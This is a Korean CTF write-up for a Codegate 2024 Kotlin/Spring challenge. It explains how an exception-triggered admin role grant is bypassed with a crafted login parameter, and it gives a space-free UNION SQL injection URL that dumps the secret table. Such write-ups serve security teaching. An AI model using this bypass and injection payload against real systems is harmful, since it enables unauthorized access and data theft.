



### Table of contents

- writeup
  - [ShieldOSINT (437pt, 13solves)](#shildosint)
  - [combination (741pt, 6solves)](#combination)

# Writeup

## ShildOSINT

:::important[info]

- keywords: `null pointer exception`, `sql injection`

:::

코틀린 + spring으로 구성된 서비스이다. 먼저 플래그의 위치를 확인하면

```kotlin
val insertDataSQL = "INSERT INTO SITE_SECRET (sdata) VALUES ('codegate2024{testflag}');"
```

sql 에 저장된다. 그래서 이 문제를 해결하기 위해 아마 sql injection이 사용된다고 추측했다.  
이후로 sql를 건드리는 코드를 집중적으로 확인했다.  
`/api/` 부분 파일을 확인하는 중에 의심되는 코드를 발견했는데,

```kotlin
@RequestMapping("/api/v6/shieldosint")
@Controller
class ApiController(private val userService: UserService) {
    @EndPointManager
    @PreAuthorize("isAuthenticated()")
    @GetMapping("/search")
    @ResponseBody
    fun search(
        principal: Principal,
        @RequestParam("s", required = false, defaultValue = "testQuery") searchcheck: String = "",
        @RequestParam("q", required = false, defaultValue = "") querycheck: String = "",
        @RequestParam("mp", required = false, defaultValue = "") magiccheck: String = ""
    ): String {
        try {
            val siteUser = userService!!.getUser(principal.name)

            if (siteUser.session != "null") {
                val reflectionController = ReflectionController()

                val dataProvider = DataProvider()
                dataProvider.initializeDatabase()

                val methodName = searchcheck
                val defaultQueryResult = reflectionController.reflectMethod(methodName)

                val query = querycheck

                if (query.isNotEmpty()) {
                    val customQueryResult = reflectionController.reflectMethod(methodName, query, magiccheck)
                    return "Query Result: $customQueryResult"
                } else {
                    return "Query Result: $defaultQueryResult"
                }
            }
            else {
                return "session null ${siteUser.username}<br>${siteUser.session}"
            }

        } catch (e: Exception) {
            return "Error"
        }
    }

    ...
}
```

여기서 `reflectMethod` 함수를 사용해서 Query를 실행하는 모습을 확인했다. `relfectMethod` 함수는

```kotlin
class ReflectionController {

    fun reflectMethod(
        methodName: String,
        query: String? = null,
        magicParam: Any? = null
    ): String {
        return try {
            val clazz = DataProvider::class
            val instance = clazz.createInstance()

            val method: KCallable<*>? = clazz.declaredFunctions.firstOrNull { it.name == methodName }

            if (method != null) {
                if (query != null && query.isNotEmpty()) {
                    when (magicParam) {
                        is String -> {
                            val finalQuery = query.split(" ")[2]
                            method.call(instance, finalQuery) as String
                        }
                        is Int -> {
                            val finalQuery = query.split(" ").last()
                            method.call(instance, finalQuery) as String
                        }
                        is Boolean -> {
                            val finalQuery = query.split(" ").first()
                            method.call(instance, finalQuery) as String
                        }
                        else -> method.call(instance, query) as String
                    }
                } else {
                    method.call(instance, "") as String
                }
            } else {
                "Method not found"
            }
        } catch (e: Exception) {
            "An error occurred: ${e.message}"
        }
    }
}
```

`DataProvide` 클래스에 있는 메소드들을 실행시킬 수 있는 기능을 가진 함수인 것을 확인할 수 있다.
그럼 또 `DataProvid` 클래스의 메소드를 확인해서 어느 메소드를 사용하여 익스할지 골라야 하므로 코드를 보면

```kotlin
fun filterQuery(query: String): String {
    val hasWhitespace = Regex("\\s")
    val containsRuntime = Regex("(?i)runtime")
    val containsJava = Regex("(?i)java")
    val special_check1 = Regex("/")
    val special_check2 = Regex("\\*")
    val special_check3 = Regex("%")
    val special_check4 = Regex("(?i)DROP")
    val special_check5 = Regex("(?i)DELETE")
    val isLengthValid = query.length <= 40

    if (hasWhitespace.containsMatchIn(query) || containsRuntime.containsMatchIn(query) || containsJava.containsMatchIn(query) || special_check1.containsMatchIn(query) || special_check2.containsMatchIn(query) || special_check3.containsMatchIn(query) || special_check4.containsMatchIn(query) || special_check5.containsMatchIn(query) || !isLengthValid) {
        return ""
    }

    return query
}

fun selectQuery(query: String = ""): String {
    val selectSQL = "SELECT SUBJECT FROM QUESTION WHERE ID>=1 and ID<=10"

    val filteredQuery = filterQuery(query)
    val finalQuery = if (filteredQuery.isNotBlank()) "$selectSQL $filteredQuery" else selectSQL
    println("Executing SQL: $finalQuery")

    try {
        getConnection().use { connection ->
            connection.createStatement().use { statement ->
                val resultSet = statement.executeQuery(finalQuery)
                val results = StringBuilder()

                while (resultSet.next()) {
                    results.append(resultSet.getString(1)).append("\n")
                }

                return results.toString().trim()
            }
        }
    } catch (e: SQLException) {
        e.printStackTrace()
    }
    return "fail"
}
```

이 `selectQuery` 함수가 굉장히 수상해보인다. 누가봐도 sql injection을 진행해야할 것 같이 생겼으므로 이 함수를 사용한다고 가정하면 시나리오는 다음과 같다.

1. `/api/v6/shieldosint/search` 접근하기 위한 `@EndPointManager`,`@PreAuthorize("isAuthenticated()")` 조건을 만족
2. 코드를 분석하여 `s`, `q`, `mp` parameter를 변조하여 sql injection
  
먼저 `@PreQuthorize("isAuthenticated()")`는 단순히 로그인을 하면 만족시키므로 문제가 없지만, `@EndPointManager`는 user의 권한이 `ROLE_ADMIN` 일 때만 요청을 보낼 수 있게 작성되어 있다. 이 것을 찾기 위해, 전체 소스코드에서 `ROLE_ADMIN`를 검색하여 필요한 코드를 찾을 수 있다.

```kotlin
class ShieldCloud : AuthenticationSuccessHandler {

    override fun onAuthenticationSuccess(
        request: HttpServletRequest,
        response: HttpServletResponse,
        authentication: Authentication
    ) {
        val authorities: MutableList<GrantedAuthority> = authentication.authorities.toMutableList()
        val shieldParamdata = request.getParameter("ShieldParam")
        var user_role: String = "false"

        if (shieldParamdata != null) {
            try {
                val shieldParamNode: JsonNode = ObjectMapper().readTree(shieldParamdata)
                val shieldParam = shieldParamNode!!.get("user_role")
                println("shieldParam: ${shieldParam} type: ${shieldParam::class.simpleName}")

                user_role = shieldParam?.toString() ?: "false"

                if (user_role == "true") {
                    authorities.add(SimpleGrantedAuthority("ROLE_USER"))
                }

            } catch (e: JsonParseException) {
                authorities.add(SimpleGrantedAuthority("ROLE_USER"))
            } catch (e: Exception) {
                    authorities.add(SimpleGrantedAuthority("ROLE_ADMIN")) // 누가봐도 수상함
            }
        } else {
            authorities.add(SimpleGrantedAuthority("ROLE_USER"))
        }

        val newAuth = UsernamePasswordAuthenticationToken(
            authentication.principal,
            authentication.credentials,
            authorities
        )

        SecurityContextHolder.getContext().authentication = newAuth

        response.sendRedirect("/")
    }
}
```

코드를 보면 누가봐도 수상한 권한 부여가 있는데, 이를 통해 shieldParam을 json.load 시킨 다음 `user_role` value 값을 얻는 과정에서 `JsonParseException`이 아닌 다른 에러가 나도록 의도적으로 발생시켜야 한다. 이 때 우리는 `user_role`라는 key값을 가지지 않는 json을 만들어 `NullPointerException` 에러를 발생시켜 관리자 권한을 획득할 수 있다.  

따라서 나는 `POST /user/login` 엔드포인트로 body 부분에 `&shieldParam={"test":"test"}` 데이터를 추가하여 관리자 권한을 획득했다.  

이를 통해 관리자 권한을 획득한 후 이제 `/api/v6/shieldosint/search`에 접근해보려 했더니



다음과 같이 이상한 로그가 뜬다. 코드를 확인해보면 `siteUser.session`이 null이기 때문이라는 것을 알 수 있는데, 이는 `GET /api/v6/shieldosint/query?q=Y` 요청으로 session을 추가해 손쉽게 해결할 수 있다.  
이제 마지막으로, sql injection을 수행하면 된다.
`filterQuery` 함수에서 공백과 주석(*, /)을 모조리 막기 때문에 괄호를 이용해서 최종 페이로드를 작성했다.

```url
/api/v6/shieldosint/search?s=selectQuery&q=a a union(select(sdata)from(SITE_SECRET))&mp=a
```


그럼 짜잔! 플래그가 나온다
